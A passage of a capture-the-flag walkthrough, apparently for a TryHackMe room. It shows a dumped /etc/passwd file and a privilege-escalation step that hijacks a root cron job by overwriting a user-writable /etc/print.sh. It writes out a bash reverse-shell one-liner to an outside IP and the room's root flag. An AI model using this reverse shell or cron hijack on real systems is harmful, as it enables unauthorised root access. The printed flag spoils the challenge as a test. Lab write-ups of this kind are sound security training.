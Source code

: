 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/home$ exit
exit
exit
$ exit
```

8. We see that other than user.txt, we have a Documents and scripts folder. The Documents folder doesn't seem to contain anything important, but the scripts folder has a script called `planner.sh` and a text file called `startup_list.txt`. `planner.sh` echos the contents of the LIST env variable into the `startup_list.txt` file. Then it calls `/etc/print.sh`, which just echos out `Done!`. If we take a look at the permissions with `ls -al`, we see that `planner.sh` is created by root - which means we can't modify it, we're logged in as lennie - and will need to be run with root privileges to work. Since it calls `/etc/print.sh`, print.sh will also be run with root privileges. If we look at the permissions for `/etc/print.sh`, we see that it's created by lennie, and we will be able to modify it. This means that if we modify print.sh and somehow run planner.sh with root privileges, we can run commands as root. After some time, we see with `ls -al` that planner.sh is being run every minute by some sort of service, probably a cron job. Assuming that it's being run as root, if we modify print.sh we'll be able to run commands as root. We can use a reverse shell for bash `bash -i >& /dev/tcp/10.13.22.138/8080 0>&1` and overwrite the old code in print.sh, since it's created by lennie. Once this is done, we simple open a netcat listener on the port we specified, and after a minute we should have a reverse shell into the root folder with root privileges. cat out root.txt and we get `THM{f963aaa6a430f210222158ae15c3d76d}`
```
# planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

```
